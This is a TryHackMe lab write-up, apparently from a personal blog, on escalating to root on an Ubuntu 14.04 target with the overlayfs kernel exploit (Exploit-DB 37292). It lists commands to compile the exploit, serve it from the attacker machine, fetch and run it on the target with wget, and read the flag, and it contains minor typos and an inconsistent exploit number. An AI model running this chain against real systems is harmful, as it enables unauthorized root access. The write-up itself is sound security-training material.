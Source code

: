 ```yaml
---
title: "Linux Priviledge Escallation room"
excerpt: "exploiting an obuntu kernel vulnerability, exploiting it on target to root"
date: 2025-08-03
tags: [exploits, ssh, ecalation, searchsploit]
layout: single
author_profile: true
---
```

### Exploiting obuntu kernel vulnerability
Start kali and connect to your tryhackme room using **sudo openvpn Lugadilu.ovpn**

To connect to target ssh, run the username ssh karen@<Target IP> then insert the password as given in the room ie ssh karen@10.10.230.146

![Topography Image](/assets/images/ssh.png)

after connecting to target, verify the OS and kernel Version ny running **uname -a** you get an output stating linux target 3.13.0-24-generic. 
The vulnerability is >>3.13.0-24**

### Kernel Exploit Search

Open a new terminal in your Kali and search for privilege escalation exploits related to the above kernel i.e **searchsploit ubuntu 14.04**
 You identify this exploit in the table **Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04 | linux/local/37292.c**
![Topography Image](/assets/images/searchsploit.png)

 copy it locally ie **searchsploit -m linux/local/37293.c**

 ### Compile the exploit on kali (attacker machine)
 Run **gcc 37292.c -o overlayfs-exploit -Wall** and verify by running **file overlayfs-exploit**

 ### Host Exploit on local web server
 still in your attacker kali, run HTTP server to serve the exploit i e **python3 -m http.server 8000**
 ![Topography Image](/assets/images/gccport.png)

 ### Transfer the exploit to target machine
 Firs confirm your kali Ip by running ifconfig and taking tun0 and not eth(local lan) ip since we are connected to tryhackme using vpn

swith to the target machine that we are running ssh and run the following sunsequently
**cd /dev/shm**
**wget http://<KALI_TUN0_IP>:8000/overlayfs-exploit -O exploit**
**chmod +x exploit**
**./exploit** -exloring for root access

Through this, you may het a GLIBC version error like i got when i did run ./exploit, this means the binary you compiled on kali is incomp
atible with the older system on the target. To fix this, compile on the target itself by running the following
**cd /tmp**
**wget http://<KALI_TUN0_IP>:8000/37292.c -O exploit.c**
**gcc exploit.c -o exploit**
**chmod +x exploit**

Exlore for root access by running **./exploit**
And now kudos!! you are the root. Verify this by running **whoami**

### Retrieving the flag
Locate and read  the flag by running 
**find / -name flag1.txt 2>/dev/null**
/home/matt/flag1.txt

**cat /home/matt/flag1.txt**
![Topography Image](/assets/images/root.png)




